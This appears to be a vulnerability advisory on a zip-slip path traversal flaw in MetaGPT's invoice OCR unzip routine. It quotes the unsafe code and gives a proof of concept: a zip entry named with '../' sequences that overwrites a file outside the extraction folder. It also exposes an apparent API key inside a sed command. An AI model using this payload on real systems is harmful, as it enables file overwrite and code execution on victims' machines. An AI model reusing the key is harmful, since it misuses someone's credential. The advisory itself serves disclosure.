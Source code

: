 ```yaml
---
layout: post
title:  "Zipslip when parsing invoice zip file via InvoiceOCRAssistant in metagpt"
date:  2024-06-24 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Zipslip when parsing invoice zip file via InvoiceOCRAssistant

## Weakness

>  CWE-23: Relative Path Traversal

## Severity

> High (8.8)

## Version

> 0.8.1

## Description

In [`receipt_assistant`](https://docs.deepwisdom.ai/main/en/guide/use_cases/agent/receipt_assistant.html), Metagpt supports OCR recognition of invoice files in pdf, png, jpg, and zip formats. And the class [`InvoiceOCR`](https://github.com/geekan/MetaGPT/blob/9f8f0a27fd3e7d6a7f6fcf40103a94829533bdc2/metagpt/actions/invoice_ocr.py#L31C7-L31C17) is responsible for recognizing the invoice files. When the files is compressed with zip format, [`InvoiceOCR._unzip`](https://github.com/geekan/MetaGPT/blob/9f8f0a27fd3e7d6a7f6fcf40103a94829533bdc2/metagpt/actions/invoice_ocr.py#L63) is used to extract the files in zip file. However, the file name in zip file is not sanitized and appended to dest path directly, could cause zipslip attacks. It's possible to overwrite files in victims' mechine, causing code execution attacks.

[_unzip#L78](https://github.com/geekan/MetaGPT/blob/9f8f0a27fd3e7d6a7f6fcf40103a94829533bdc2/metagpt/actions/invoice_ocr.py#L78) function:

```
@staticmethod
async def _unzip(file_path: Path) -> Path:
    """Unzip a file and return the path to the unzipped directory.

    Args:
        file_path: The path to the zip file.

    Returns:
        The path to the unzipped directory.
    """
    file_directory = file_path.parent / "unzip_invoices" / datetime.now().strftime("%Y%m%d%H%M%S")
    with zipfile.ZipFile(file_path, "r") as zip_ref:
        for zip_info in zip_ref.infolist():
            # Use CP437 to encode the file name, and then use GBK decoding to prevent Chinese garbled code
            relative_name = Path(zip_info.filename.encode("cp437").decode("gbk"))
            if relative_name.suffix:
                # unsafe path appending
                full_filename = file_directory / relative_name
                await File.write(full_filename.parent, relative_name.name, zip_ref.read(zip_info.filename))

    logger.info(f"unzip_path: {file_directory}")
    return file_directory
```

[`File.write#L39`](https://github.com/geekan/MetaGPT/blob/9f8f0a27fd3e7d6a7f6fcf40103a94829533bdc2/metagpt/utils/file.py#L39) function is reponsible for writing the file content in zip file to target path. In Line 39, `full_path = root_path / filename`, the `filename` is not santized, filename such as `../../../../../../../../test.txt` in zip file will be appended to `root_path`, causing path traversal and file overwrite. 

```
async def write(cls, root_path: Path, filename: str, content: bytes) -> Path:
    """Write the file content to the local specified path.

    Args:
        root_path: The root path of file, such as "/data".
        filename: The name of file, such as "test.txt".
        content: The binary content of file.

    Returns:
        The full filename of file, such as "/data/test.txt".

    Raises:
        Exception: If an unexpected error occurs during the file writing process.
    """
    root_path.mkdir(parents=True, exist_ok=True)
    full_path = root_path / filename
    async with aiofiles.open(full_path, mode="wb") as writer:
        await writer.write(content)
        logger.debug(f"Successfully write file: {full_path}")
        return full_path
```

## Proof of Concept

Firstly, let's create a zip file containing relative file name, and save as `auth.zip`:

```
zip auth.zip ../../../../../../../home/kali/test.py
```

Then, install metagpt and it's ocr extras:

```
pip install --upgrade metagpt
pip install --upgrade 'metagpt[ocr]'
```

After installed, we need to init metagpt with our openai key according to [official documentation](https://github.com/geekan/MetaGPT?tab=readme-ov-file#configuration):

```
# create 
> metagpt --init-config

# fill your openai key, this key is for testing
> sed -i 's/YOUR_API_KEY/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/g' /root/.metagpt/config2.yaml
```

Before attacks, let's check the `/home/kali/test.py` is empty path

```
> ls -la /home/kali/test.py
ls: cannot access '/home/kali/test.py': No such file or directory
```

### Start attack

Run following snippets from [offical tutorial](https://docs.deepwisdom.ai/main/en/guide/use_cases/agent/receipt_assistant.html#example-1) to parse and recognize our `auth.zip` file:

```
from metagpt.roles.invoice_ocr_assistant import InvoiceOCRAssistant, InvoicePath
from metagpt.schema import Message

role = InvoiceOCRAssistant()
await role.run(Message(content="Invoicing date", instruct_content=InvoicePath(file_path="auth.zip")))
```

Now let's check the file is overwritten successfully:

```
> ls -la /home/kali/test.py
-rw-r--r-- 1 root root 12 Jun 24 14:50 /home/kali/test.py
```

## Colab

Tested on google colab: [https://colab.research.google.com/drive/1ujE5yqxcB_RlRtXMfNSSeTYPLy6DMDwQ?usp=sharing](https://colab.research.google.com/drive/1ujE5yqxcB_RlRtXMfNSSeTYPLy6DMDwQ?usp=sharing)

![poc](https://live.staticflickr.com/65535/53811891297_68e84388c8_h.jpg)

## Impact

This vulnerability can have severe consequences. If victims parse and recognize an malicious zip file, zipslip can be achieved to overwrite files in victims mechine, causing potential code execution attack.

## Occurrences

[_unzip#L79](https://github.com/geekan/MetaGPT/blob/9f8f0a27fd3e7d6a7f6fcf40103a94829533bdc2/metagpt/actions/invoice_ocr.py#L79)

[write#L39](https://github.com/geekan/MetaGPT/blob/9f8f0a27fd3e7d6a7f6fcf40103a94829533bdc2/metagpt/utils/file.py#L39)

